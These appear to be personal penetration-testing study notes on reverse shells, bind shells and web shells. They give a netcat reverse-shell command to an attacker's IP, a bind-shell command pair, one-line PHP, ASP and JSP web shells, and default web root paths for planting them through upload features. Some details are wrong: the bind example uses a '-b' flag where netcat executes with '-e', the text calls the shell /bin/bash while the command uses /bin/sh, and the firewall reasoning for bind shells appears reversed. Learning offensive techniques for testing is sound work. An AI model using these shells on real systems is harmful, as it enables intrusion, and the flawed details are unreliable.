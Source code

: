 
# Reverse Shells vs. Bind Shells
Shells are just a way to gain and maintain access to a target machine. The most common type of shell is a [reverse shell](/cybersecurity/TTPs/exploitation/rev-shell.md) in which the victim machine connects back to us. A common tool used to accomplish rev-shells is *[Netcat](../../../cybersecurity/TTPs/exploitation/tools/netcat.md)*.
## Rev Shells
In order for rev shells to work, the attacking device needs to be listening on a specific port for the connection. In Netcat we can tell our device to listen on a chosen port with the command: `nc -lvp 4444`.
- `-l` for listen
- `-v` for verbose
- `-p` for port
With this command, we're telling Netcat to listen on port 4444 of our machine.
### On the target:
To get the target to connect to our listener, we have to execute a command on the target to make the connection. For example: if the target *has netcat installed* (or we've some how gotten netcat onto the target machine) we can use it to make a connection back to our machine.

The command on the target in this case would look something like this:
```bash
nc <attacking IP> 4444 -e /bin/sh
```
In this command, nc on the target device creates a *[TCP connection](/networking/protocols/TCP.md)* back to the attacking IP, and executing a shell (`/bin/bash`) using the `-e` flag (the shell is executed on the target device).
## Bind Shells
[Bind shells](/cybersecurity/TTPs/exploitation/bind-shell.md) are essentially *the reverse of rev shells.* In bind shells, we *open a port on the target for listening* and make the TCP connection to that address from the attacker.

The shell execution *is still from the target's device*:
```bash
# Attacking command (example)
nc <target IP> 4444

# Target command (ex)
nc -lvp 4444 -b /bin/bash
```
Bind shells are more commonly used during *external pen-tests* b/c it's easier to make the connection to the target (due to firewalls and other factors complicating external network access).
## Web Shells
Typically written and executed using a web script/ language like [PHP](../../../coding/languages/PHP.md) or [ASPX](../../../coding/languages/ASPX.md). Additionally, a web shell is usually *accepting commands through [HTTP](../../../www/HTTP.md) or [HTTPS](../../../www/HTTPS.md)*. The shell then prints the output of our commands *on the webpage*. 
### Web Shell Scripts
#### PHP
```php
<?php system($_REQUEST["cmd"]); ?>
```
**NOTE:** If you want to check that your PHP shell will actually execute, you can try with a much simpler and more innocuous command like `phpinfo()`. If you can get `phpinfo()` to execute, then the webpage should show a bunch of server configuration info. This verifies that the server is executing PHP at this endpoint.
#### ASP
```asp
<% eval request("cmd") %>
```
#### JSP
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
### Uploading a Web Shell
For our script to execute, we need to deliver it *to the web root* of the remote host/ server. Usually, if  we can get our script there, then the browser will execute it. Common vectors for delivering our web shell script to the web root is through upload features (such as a profile picture for your account on the vulnerable website), etc..
#### Where is the web root?
It might take some poking around to identify where the web root is. For common web servers, the default paths are:

| Server | Web Root               |
| ------ | ---------------------- |
| Apache | /var/www/html/         |
| Nginx  | /usr/local/nginx/html/ |
| IIS    | C:\inetpub\wwwroot\    |
| XAMPP  | C:\xampp\htdocs\       |
> [!Resources]
> - [TCM Security: PEH](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)
> - [HTB Academy: Types of Shells](https://academy.hackthebox.com/module/77/section/725)

> [!My previous notes (linked in text)]
> - [Rev Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/rev-shell.md) 
> - [Netcat](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/tools/netcat.md)
> - [TCP](https://github.com/TrshPuppy/obsidian-notes/tree/main/networking/protocols/TCP.md)
> - [Bind Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/bind-shell.md) 
> - [blank](https://github.com/TrshPuppy/obsidian-notes/tree/main/)